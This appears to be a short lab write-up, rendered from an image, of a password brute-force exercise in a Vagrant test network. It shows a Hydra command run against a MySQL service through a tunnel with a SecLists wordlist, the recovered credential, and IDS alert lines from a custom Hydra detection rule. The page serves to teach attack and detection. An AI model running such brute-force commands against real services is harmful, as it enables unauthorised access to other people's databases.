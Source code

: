 ```code
[ERROR] Child with pid 5617 terminating, can not connect
[ERROR] Child with pid 5618 terminating, can not connect
[ERROR] all children were disabled due too many connection errors
0 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-05 08:27:10
```

`now through the tunnel`

```code
vagrant@red:~$ sudo hydra -s 8881 -l toor -P SecLists/Passwords/xato-net-10-million-passwords-100000.txt mysql://192.168.100.253
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-05 08:28:00
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 100000 login tries (l:1/p:100000), ~25000 tries per task
[DATA] attacking mysql://192.168.100.253:8881/
[8881][mysql] host: 192.168.100.253   login: toor   password: summer
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-05 08:28:02
```

`logfile`

```code
01/05/2024-08:28:02.170611  [**] [1:1234567893:1] BENNY13 hydra detected [**] [Classification: Attempted Information Leak] [Priority: 2] {TCP} 172.30.0.15:3306 -> 172.30.0.254:43926
01/05/2024-08:28:02.239591  [**] [1:1234567893:1] BENNY13 hydra detected [**] [Classification: Attempted Information Leak] [Priority: 2] {TCP} 172.30.0.15:3306 -> 172.30.0.254:44002
01/05/2024-08:28:02.350315  [**] [1:1234567893:1] BENNY13 hydra detected [**] [Classification: Attempted Information Leak] [Priority: 2] {TCP} 172.30.0.15:3306 -> 172.30.0.254:44060
01/05/2024-08:28:02.410083  [**] [1:1234567893:1] BENNY13 hydra detected [**] [Classification: Attempted Information Leak] [Priority: 2] {TCP} 172.30.0.15:3306 -> 172.30.0.254:44128
01/05/2024-08:28:02.488246  [**] [1:1234567893:1] BENNY13 hydra detected [**] [Classification: Attempted Information Leak] [Priority: 2] {TCP} 172.30.0.15:3306 -> 172.30.0.254:44222
01/05/2024-08:28:02.627100  [**] [1:1234567893:1] BENNY13 hydra detected [**] [Classification: Attempted Information Leak] [Priority: 2] {TCP} 172.30.0.15:3306 -> 172.30.0.254:44318
01/05/2024-08:28:02.716755  [**] [1:1234567893:1] BENNY13 hydra detected [**] [Classification: Attempted Information Leak] [Priority: 2] {TCP} 172.30.0.15:3306 -> 172.30.0.254:44410
01/05/2024-08:28:02.791797  [**] [1:1234567893:1] BENNY13 hydra detected [**] [Classification: Attempted Information Leak] [Priority: 2] {TCP} 172.30.0.15:3306 -> 172.30.0.254:44492
01/05/2024-08:28:02.840160  [**] [1:1234567893:1] BENNY13 hydra detected [**] [Classification: Attempted Information Leak] [Priority: 2] {TCP} 172.30.0.15:3306 -> 172.30.0.254:44562
01/05/2024-08:28:02.935346  [**] [1:1234567893:1] BENNY13 hydra detected [**] [Classification: Attempted Information Leak] [Priority: 2] {TCP} 172.30.0.15:3306 -> 172.30.0.254:44648
01/05/2024-08:28:03.067457  [**] [1:1234567893:1] BENNY13 hydra detected [**] [Classification: Attempted Information Leak] [Priority: 2] {TCP} 172.30.0.15:3306 -> 172.30.0.254:44742
01/05/2024-08:28:03.194602  [**] [1:1234567893:1] BENNY13 hydra detected [**] [Classification: Attempted Information Leak] [Priority: 2] {TCP} 172.30.0.15:3306 -> 172.30.0.254:44830
01/05/2024-08:28:03.260950  [**] [1:1234567893:1] BENNY13 hydra detected [**] [Classification: Attempted Information Leak] [Priority: 2] {TCP} 172.30.0.15:3306 -> 172.30.0.254:38618
01/05/2024-08:28:03.341033  [**] [1:1234567893:1] BENNY13 hydra detected [**] [Classification: Attempted Information Leak] [Priority: 2] {TCP} 172.30.0.15:3306 -> 172.30.0.254:38728
01/05/2024-08:28:03.414305  [**] [1:1234567893:1] BENNY13 hydra detected [**] [Classification: Attempted Information Leak] [Priority: 2] {TCP} 172.30.0.15:3306 -> 172.30.0.254:38774
01/05/2024-08:28:03.476728  [**] [1:1234567893:1] BENNY13 hydra detected [**] [Classification: Attempted Information Leak] [Priority: 2] {TCP} 172.30.0.15:3306 -> 172.30.0.254:38844
01/05/2024-08:28:03.566663  [**] [1:1234567893:1] BENNY13 hydra detected [**] [Classification: Attempted Information Leak] [Priority: 2] {TCP} 172.30.0.15:3306 -> 172.30.0.254:38920
```
